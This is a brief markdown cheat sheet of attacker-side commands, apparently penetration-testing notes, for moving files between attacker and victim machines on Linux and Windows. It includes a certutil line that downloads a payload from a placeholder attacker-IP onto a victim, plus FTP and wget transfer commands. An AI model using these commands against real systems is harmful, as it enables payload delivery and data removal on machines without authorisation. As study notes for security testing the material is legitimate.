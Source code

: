 # Useful Commands

## Linux

- Bash
  - transfer files between attacker and victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim
  - loop through array and execute command on elements inside
    - `for i in "${array[@]}"; do <command> "$i"; done`

## Windows

- cmd
  - transfer files between attacker and victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
